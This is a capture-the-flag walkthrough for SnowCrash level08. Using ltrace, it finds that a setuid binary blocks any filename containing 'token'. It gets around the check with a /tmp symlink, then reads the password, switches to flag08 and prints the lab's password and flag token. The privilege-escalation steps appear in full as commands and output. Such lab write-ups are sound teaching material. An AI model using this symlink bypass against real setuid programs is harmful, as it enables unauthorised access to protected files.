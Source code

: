 How to find:

    level08@SnowCrash:~$ ls -la
    total 28
    dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
    d--x--x--x  1 root    users    340 Aug 30  2015 ..
    -r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
    -r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
    -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
    -r-x------  1 level08 level08  675 Apr  3  2012 .profile
    -rw-------  1 flag08  flag08    26 Mar  5  2016 token

level08 and token files

    level08@SnowCrash:~$ ./level08 
    ./level08 [file to read]

    level08@SnowCrash:~$ ./token
    -bash: ./token: Permission denied
    
    level08@SnowCrash:~$ cat token 
    cat: token: Permission denied
    
    level08@SnowCrash:~$ ./level08 token
    You may not access 'token'

**ltrace** tracks function calls to shared libraries such as printf, malloc, getenv, system, etc. 
Not only shows which functions are called but also the arguments passed to those functions and their return values.

    level08@SnowCrash:~$ ltrace ./level08 token

    __libc_start_main(0x8048554, 2, 0xbffff7e4, 0x80486b0, 0x8048720 <unfinished ...>
    strstr("token", "token")                                        = "token"
    printf("You may not access '%s'\n", "token"You may not access 'token'
    )                    = 27
    exit(1 <unfinished ...>
    +++ exited (status 1) +++


User flag08 owns both files so once symbolik linked to the token file it will open the file

    level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/maitoquen
    level08@SnowCrash:~$ ./level08 /tmp/maitoquen
    quif5eloekouj29ke0vouxean

Now login user flag08

    level08@SnowCrash:~$ su flag08
    Password: 
    Don't forget to launch getflag !
    flag08@SnowCrash:~$ getflag
    Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f